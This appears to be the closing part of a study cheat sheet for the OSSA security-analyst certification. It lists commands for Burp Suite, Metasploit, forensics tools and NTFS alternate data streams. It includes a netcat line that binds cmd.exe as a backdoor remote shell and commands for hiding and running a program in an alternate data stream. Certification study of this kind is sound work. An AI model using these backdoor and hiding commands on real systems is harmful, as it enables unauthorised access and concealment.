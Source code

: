 **Burpsuite**
1. Change interface from loopback only to anything else
2. Set SSL cert to generate CA-signed per-host certificates
3. Change proxy of browser to `127.0.0.1` and port to `8080`

**Metasploit** (Skidde tool)
- `msfconsole`: Starts metasploit console
- `show exploits`
- `use <exploit name>`: Sets exploit to use
- `show options`: Show options for particualr exploit
- `set <RHOST/RPORT/LHOST/LPORT> <host/port>`: Set listening/remote host/port
- `show targets`: Show which targets are vulnerable
- `show payloads`
- `set payload`: Sets the payload to use
- `exploits`: Haxxor like the script kiddie you are

**Netcat**
- `nc -lp <port number> -e path_to\cmd.exe`: Creates a remote shell as backdoor
- `nc <ip address> <port number>`: Connect to remote shell

**Alternate Data Stream (ADS)**
- `notepad path_to\file:hiddenfile`: Write to alternate data stream
- `wmic process call create path_to\file:hiddenfile`: Run hidden program
- `expand path_to\file:hiddenfile hiddenfile`: Extract hidden file from ADS
- `dir/r`: View all files including ADS files

**S-Tools**
- Right-click and reveal
- Enter passphrase and encryption algorithm

**Foremost**
- `foremost -T -i <.dd file>`: Extract all data from image

**Pasco**
- `pasco -d <index.dat_filename>`: View history of websites

**Galleta**
- `galleta <name_of_cookie>`: View cookie values

**dd command**
- `dd if=/source of=/destination`

# Extras
With that, you have unofficially completed the Organizational Systems Security Analyst! Now, go and do it for realz.

# Credits
**ThinkSecure™ Pte Ltd**

Take your certification here: http://securitystartshere.org/page-training-ossa.htm

